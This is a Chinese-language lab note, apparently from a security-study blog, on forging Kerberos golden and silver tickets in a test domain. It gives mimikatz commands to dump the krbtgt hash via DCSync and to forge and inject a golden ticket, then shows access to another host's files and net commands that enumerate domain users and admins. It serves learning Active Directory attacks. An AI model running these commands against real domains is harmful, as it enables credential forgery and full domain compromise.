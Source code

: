 ##### 伪造白银票据的条件

1. 域名
2. 域SID
3. 目标服务器名
4. 可利用的服务
5. **服务账号**的`NTML hash`
6. 需要伪造的用户名（随便写）

### 黄金票据和白银票据

- 黄金票据：伪造TGT（伪造TGT之后就可以买去访问任意服务的票据）
- 白银票据：伪造ST（伪造ST后只能访问去某个服务的票据）


#### 黄金票据实现

##### 运行mimikatz

- mimikatz查看票据：`kerberos:list`
- mimikatz清空票据：`kerberos:purge`

##### 获取域SID和krbtgt账户的密码散列值

**域内主机管理员**权限运行mimikatz

```bash
lsadump::dcsync /domain:wasj.test /user:krbtgt
```

![image-20241102173719228](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173719228.png)

##### 生成黄金票据

生成黄金票据写入内存并查看

```bash
kerberos::golden /user:lisi /domain:wasj.test /sid:S-1-5-21-1555841673-700802396-2860917582 /krbtgt:e1022d30b9f97a0031052a916eb6d33e /ptt
kerberos:list
```

![image-20241102173730912](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173730912.png)

##### 查看域内C盘文件

client02通过dir命令，查看域内client01的C盘文件。

![image-20241102173759499](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173759499.png)

资源管理器能够访问域内client01文件

![image-20241102173808604](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173808604.png)

```bash
net user  /domain 获取域用户列表
net group  "domain admins"  /domain 获取管理员列表
net group "domain controllers" /domain 查看域控制器 
net group "domain computers" /domain 查看域机器
```
